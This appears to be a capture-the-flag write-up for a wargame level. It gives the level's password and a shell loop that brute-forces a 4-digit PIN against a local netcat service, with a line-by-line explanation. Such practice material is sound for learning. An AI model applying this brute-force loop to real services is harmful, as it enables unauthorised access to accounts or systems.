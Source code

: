 Level password: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

For connecting and brute forcing, we could create a script for this:

```sh
for i in {0..9999};
do
	echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 ${i}";
done | nc localhost 30002 | grep -v "Wrong"
```

We iterate from *0* to *9999* using a for loop, then echo the password of the current level with the current iteration index. Then we pipe it into `netcat`. The invert grep `grep -v` allows us to filter for any output that doesn't contain the word *Wrong* in it, the word that indicates incorrect password. So we just grab output lines that are correct.